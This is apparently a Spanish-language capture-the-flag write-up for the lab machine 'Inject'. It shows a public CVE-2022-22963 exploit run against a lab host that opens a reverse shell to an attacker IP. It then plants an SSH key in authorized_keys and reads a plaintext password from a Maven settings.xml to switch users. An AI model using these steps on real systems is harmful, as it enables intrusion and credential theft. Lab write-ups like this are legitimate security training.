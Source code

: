Para obtener una SHELL se uso el script del usuario J0ey17 https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit

```
$ python3 exploit.py -u http://10.10.11.204:8080/functionRouter
[+] Target http://10.10.11.204:8080/functionRouter

[+] Checking if http://10.10.11.204:8080/functionRouter is vulnerable to CVE-2022-22963...

[+] http://10.10.11.204:8080/functionRouter is vulnerable

[/] Attempt to take a reverse shell? [y/n]y
listening on [any] 4444 ...
[$$] Attacker IP:  10.10.14.10
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.204] 53328
bash: cannot set terminal process group (793): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ whoami
whoami
frank
frank@inject:/$ 
```

Ahora para obtener una sesion interactiva, se debe genrerar las llaves SSH y pegar nuestro id_rsa.pub en la ruta /home/frank/.ssh/authorized_keys para posteriormente iniciar una sesion de SSH.

Cuando iniciemos la sesion SSH como el usuario frank, solo debemos leer el archivo /home/frank/.m2/settings.xml para obtener la contrasena del usuario phil 

```
frank@inject:~$ cat .m2/settings.xml 
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
frank@inject:~$ su phil
Password: 
phil@inject:/home/frank$ 
```

Ahora solo leemos la bandera user.txt
